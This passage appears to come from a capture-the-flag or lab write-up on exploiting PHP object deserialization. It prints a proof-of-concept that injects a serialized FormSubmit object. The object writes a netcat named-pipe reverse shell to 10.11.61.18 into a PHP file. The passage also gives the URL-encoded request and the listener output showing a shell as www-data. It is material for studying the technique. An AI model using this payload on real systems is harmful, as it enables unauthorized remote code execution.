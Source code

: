 ```php
$debug_obj->message = "<?php system('rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.61.18 443 >/tmp/f'); ?>";
$serialized_debug_obj = serialize($debug_obj);
echo $serialized_debug_obj . "\n";

?>
```

Here, you can notice that I modified two fields of initial object `FormSubmit`. This fields are crucial. In `__destruct()` method we put a content of the field `message` to the file with filename `form_file`. That's it. So, the first field `form_file` modified to create a new php file, and the second field `message` modified with content of our payload to execute reverse shell command.

```bash
php poc.php    
O:10:"FormSubmit":2:{s:9:"form_file";s:13:"revshell2.php";s:7:"message";s:101:"<?php system('rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.61.18 443 >/tmp/f'); ?>";}
Your submission has been successfully saved!Your submission has been successfully saved!
```

Now, we perform a GET request to our vulnerable app:

```
GET /index.php?name=rce&email=rce&comments=rce&select=1&radio=1&checkbox=1&debug=O%3a10%3a"FormSubmit"%3a2%3a{s%3a9%3a"form_file"%3bs%3a13%3a"revshell.php"%3bs%3a7%3a"message"%3bs%3a101%3a"<%3fphp+system('rm+-f+/tmp/f%3bmknod+/tmp/f+p%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.11.61.18+443+>/tmp/f')%3b+%3f>"%3b} HTTP/1.1
Host: 10.10.145.15
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://10.10.145.15/index.php
Upgrade-Insecure-Requests: 1


```

After that, we can run reverse shell with `GET /revshell.php HTTP/1.1` request. Don't forget to get interactive shell after:

```bash
# nc -lnvp 443
listening on [any] 443 ...
connect to [10.11.61.18] from (UNKNOWN) [10.10.145.15] 56486
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ ls -la
total 84
drwxr-xr-x 6 www-data www-data  4096 Apr 19 15:28 .
drwxr-xr-x 3 root     root      4096 Mar  9  2021 ..
-rw-r--r-- 1 www-data www-data    44 Mar  9  2021 .htpasswd
drwxr-xr-x 5 www-data www-data  4096 Mar  9  2021 backup
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 grid
-rw-r--r-- 1 www-data www-data 11321 Mar  9  2021 index.html
-rw-r--r-- 1 www-data www-data  6399 Mar  9  2021 index.php
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 javascripts
drwxr-xr-x 2 www-data www-data  4096 Mar  9  2021 less
-rw-r--r-- 1 www-data www-data    82 Apr 19 15:23 message.php
-rw-r--r-- 1 www-data www-data   830 Apr 19 15:28 message.txt
-rw-r--r-- 1 www-data www-data    74 Apr 19 15:25 rce.php
-rw-r--r-- 1 www-data www-data  2339 Mar  9  2021 readme.md
-rw-r--r-- 1 www-data www-data    76 Apr 19 15:26 revshell.php
-rw-r--r-- 1 www-data www-data   101 Apr 19 15:28 revshell2.php
-rw-r--r-- 1 www-data www-data 10371 Mar  9  2021 style.css
```